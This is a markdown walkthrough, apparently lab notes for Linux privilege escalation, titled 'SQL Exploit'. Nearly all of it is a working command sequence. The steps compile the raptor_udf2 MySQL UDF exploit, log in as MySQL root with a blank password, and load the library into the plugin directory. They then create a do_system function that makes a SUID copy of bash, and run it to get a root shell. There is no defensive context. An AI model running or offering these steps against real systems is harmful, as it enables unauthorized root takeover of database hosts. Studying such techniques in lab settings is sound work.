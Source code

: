 

# SQL Exploit
---

- **Change into the MySQL directory:**

    ```bash
    cd /home/user/tools/mysql-udf
    ```

---

- **Compile the `raptor_udf2.c` exploit code:**

    ```bash
    gcc -g -c raptor_udf2.c -fPIC
    gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
    ```

---

- **Connect to the MySQL service as the root user with a blank password:**

    ```bash
    mysql -u root
    ```

---

- **In the MySQL shell, create a User Defined Function (UDF) "do_system" using the compiled exploit:**

    ```sql
    use mysql;
    create table foo(line blob);
    insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
    select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
    create function do_system returns integer soname 'raptor_udf2.so';
    ```

---

- **Use the function to copy `/bin/bash` to `/tmp/rootbash` and set the SUID permission:**

    ```sql
    select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
    ```

---

- **Exit from the MySQL shell:**

    ```bash
    exit
    ```

---

- **Run the `/tmp/rootbash` executable with `-p` to gain a shell running with root privileges:**

    ```bash
    /tmp/rootbash -p
    ```

---

- **If you want to exit from root:**

    ```bash
    rm /tmp/rootbash
    exit
    ```

---

